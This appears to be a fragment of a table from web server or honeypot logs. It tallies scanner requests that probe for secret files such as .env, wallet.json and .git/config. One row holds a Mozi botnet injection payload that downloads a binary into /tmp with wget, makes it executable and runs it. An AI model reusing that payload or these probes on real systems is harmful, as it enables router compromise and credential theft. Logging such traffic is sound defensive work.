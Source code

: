 |  68 |                     3 | GET /config.json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  69 |                     3 | POST /Autodiscover/Autodiscover.xml HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
|  70 |                     2 | GET /wallet.json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  71 |                     2 | GET /api/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|  72 |                     2 | POST /HNAP1/ HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|  73 |                     2 | GET /user HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  74 |                     2 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
|  75 |                     2 | GET /lib/python/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  76 |                     2 | \x16\x03\x01\x01                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
|  77 |                     2 | HEAD / HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |